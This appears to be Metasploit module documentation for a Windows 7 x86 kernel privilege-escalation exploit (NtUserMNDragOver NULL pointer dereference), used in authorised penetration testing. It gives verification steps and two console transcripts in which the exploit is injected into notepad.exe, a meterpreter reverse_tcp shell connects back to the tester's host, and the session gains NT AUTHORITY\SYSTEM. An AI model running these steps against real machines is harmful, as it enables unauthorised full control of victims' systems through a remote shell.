 ## Vulnerable Application

This module exploits a NULL pointer dereference vulnerability in MNGetpItemFromIndex(), which is reachable via a NtUserMNDragOver() system call.
The NULL pointer dereference occurs because the xxxMNFindWindowFromPoint() function does not effectively check the validity of the tagPOPUPMENU objects it processes before passing them on to MNGetpItemFromIndex(), where the NULL pointer dereference will occur.
This module has been tested against Windows 7 x86 SP0 and SP1. Offsets within the solution may need to be adjusted to work with other versions of Windows, such as Windows Server 2008.

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Windows 7 x86
1. `use exploit/windows/local/ntusermndragover`
1. `set session <session>`
1. `set payload windows/meterpreter/reverse_tcp`
1. `set LHOST <LHOST>`
1. `set LPORT 5555`
1. `exploit`
1. Get a SYSTEM session

## Scenarios

### Windows 7 SP0 x86

```
msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  User-PC\User @ USER-PC  192.168.56.1:4444 -> 192.168.56.15:49158 (192.168.56.15)

msf5 exploit(multi/handler) > use exploit/windows/local/ntusermndragover
msf5 exploit(windows/local/ntusermndragover) > set session 1
session => 1
msf5 exploit(windows/local/ntusermndragover) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ntusermndragover) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(windows/local/ntusermndragover) > set LPORT 5555
LPORT => 5555
msf5 exploit(windows/local/ntusermndragover) > run

[*] Started reverse TCP handler on 192.168.56.1:5555
[*] Launching notepad.exe to host the exploit...
[+] Process 3464 launched.
[*] Injecting exploit into 3464 ...
[*] Exploit injected. Injecting payload into 3464...
[*] Payload injected. Executing exploit...
[*] Sending stage (176195 bytes) to 192.168.56.15
[*] Meterpreter session 2 opened (192.168.56.1:5555 -> 192.168.56.15:49159) at 2020-04-29 17:14:46 +0800

meterpreter > sysinfo
Computer        : USER-PC
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

### Windows 7 SP1 x86

```

msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  User-PC\User @ USER-PC  192.168.56.1:4444 -> 192.168.56.5:49157 (192.168.56.5)

msf5 exploit(multi/handler) > use exploit/windows/local/ntusermndragover
msf5 exploit(windows/local/ntusermndragover) > set session 1
session => 1
msf5 exploit(windows/local/ntusermndragover) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ntusermndragover) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(windows/local/ntusermndragover) > set LPORT 5555
LPORT => 5555
msf5 exploit(windows/local/ntusermndragover) > run

[*] Started reverse TCP handler on 192.168.56.1:5555
[*] Launching notepad.exe to host the exploit...
[+] Process 2696 launched.
[*] Injecting exploit into 2696 ...
[*] Exploit injected. Injecting payload into 2696...
[*] Payload injected. Executing exploit...
[*] Sending stage (176195 bytes) to 192.168.56.5
[*] Meterpreter session 2 opened (192.168.56.1:5555 -> 192.168.56.5:49158) at 2020-04-29 17:18:00 +0800

meterpreter > sysinfo
Computer        : USER-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
